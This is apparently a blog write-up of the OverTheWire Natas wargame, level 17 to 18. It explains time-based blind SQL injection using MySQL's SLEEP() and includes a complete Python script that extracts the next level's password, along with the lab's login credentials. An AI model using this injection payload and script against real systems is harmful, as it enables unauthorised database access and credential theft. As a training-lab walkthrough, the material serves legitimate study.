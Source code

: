 ```yaml
---
layout: post
title:  "Natas Level 17 → Level 18"
date: 2017-07-09
author: "Harsh Chawla"
tags: Overthewire Natas
---
```

<pre><h3><b>Level 17
Username : natas17
Password : 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
URL      : http://natas17.natas.labs.overthewire.org</b></h3></pre>

### Solution

To solve this level, we first log into the natas17 application using the credentials provided above.

Right off the bat, the application is reminiscent of [Level 15](https://hchawla.github.io/2017/07/07/NatasL1516.html) with a slight and interesting twist. This time around, the application does not return anything back to the user which might leak information about the user’s existence in the database. Given that everything else remains the same as level 15, the application might still be equally vulnerable to our attack from the last time.
In such a case, a sound idea would be to create  a query that leaks information about the password. In the last case, we had the if-else cases which helped us determine the password. In this case, if we can make the results of our query leak information, we will be able to guess the password.
Therefore, we need to make a query which does the following:

```
if(character is in password):
    Do this
else:
    Don't do it
```

Such attacks are generally referred to as side-channel attacks, which means that the channel of carrying out the attack is not through the normal flow of an application but through a different medium.

As we are aware, MySQL provides a lot of different functions and one great function for testing for SQL injection is **Sleep()**. The reason why it’s a great function is that it does not rely on the type of database or table and does not need any inputs from the table. Let’s try to create a python code which utilizes the sleep command to leak information about the password.

```python
import urllib2
alphanumericChars='1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'
passwordChars=''
password=''
debug=0
targetURL='http://natas17.natas.labs.overthewire.org/'
REQ=urllib2.Request(targetURL, headers={"Authorization" : "Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=="})
try:
    contents = urllib2.urlopen(REQ).read()
    if debug:
        print contents
except urllib2.HTTPError as e:
        print e.code
        print e.read()
def findPassChars():
    global debug, passwordChars, targetURL, passString
    for c in alphanumericChars:
        completeURL=targetURL+'?debug='+ str(debug) +'&username=natas18"+and+password+like+BINARY+"%'+c+'%"+AND+SLEEP(5)=0+AND+"X"="X'
        try:
            REQ=urllib2.Request(completeURL, headers={"Authorization" : "Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=="})
            contents = urllib2.urlopen(REQ, timeout=1.0).read()
        except IOError as e: 
            passwordChars+= c
            print 'Password contains character     :    ' + c 
                         
def findPassword():
    global debug, passwordChars, targetURL, password
    for i in range(32):
        for c in passwordChars:
            completeURL=targetURL+'?debug='+ str(debug) +'&username=natas18"+and+password+like+BINARY+"'+password+c+'%"+AND+SLEEP(5)=0+AND+"X"="X'
            print completeURL
            try: 
                REQ=urllib2.Request(completeURL, headers={"Authorization" : "Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=="})
                contents = urllib2.urlopen(REQ, timeout=1.0).read()
            except IOError as e:
                if debug:
                    print contents
                password += c
                print 'Current password evaluation:' + password
                break
    print password

#Find characters in the password
findPassChars()

#Find password based on the characters found using findPassChars()
findPassword()
```

Using the above code, we can find out the password for the next round.

Note: Catch IOError to be able to catch timeout exceptions.

<pre><h3><b>Level 18
Username : natas18
Password : xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
URL      : http://natas18.natas.labs.overthewire.org</b></h3></pre>
